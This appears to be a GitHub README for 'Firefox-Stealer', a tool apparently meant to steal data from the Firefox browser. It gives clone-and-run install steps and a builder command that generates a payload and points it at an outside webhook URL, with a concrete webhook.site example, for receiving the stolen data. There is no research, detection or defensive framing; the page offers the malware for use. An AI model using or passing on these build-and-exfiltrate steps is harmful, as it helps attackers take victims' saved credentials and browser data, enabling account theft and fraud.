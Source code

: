<h1 align="center">
[ Nahid Alam ]
</h1>

<h2 align="center">
Firefox-Stealer
</h2>
<h2 align="center">
<a href="https://github.com/illusiondemon"><img title="Bangladesh" src="https://img.shields.io/badge/MADE%20IN-BANGLADESH-green?colorA=%23ff0000&colorB=%23017e40&style=flat"></a> 
</p><br>

<h2 align="center">
How To Install
</h2>

`
git clone https://github.com/illusiondemon/firefox-stealer.git
`

`
cd firefox-stealer
`

`
chmod +x *
`

<h5 align="center">How To Use<h5>

`
./builder filename https://webhook.com/code
`
Example : ./builder firefox_payload https://webhook.site/9b02e2c7-b553-4ff1-a11d-6a31cc3975e9
<h5 align="center">Create your own webhook url<h5>
 `
https://webhook.site
 
 <h5 align="center">Screen Shot<h5>
<p align="center">
  <img alt="Layout" src="https://user-images.githubusercontent.com/88379378/173880221-842c57d5-b0b3-4f56-8d24-5e94c8fb17ec.png">
</p>
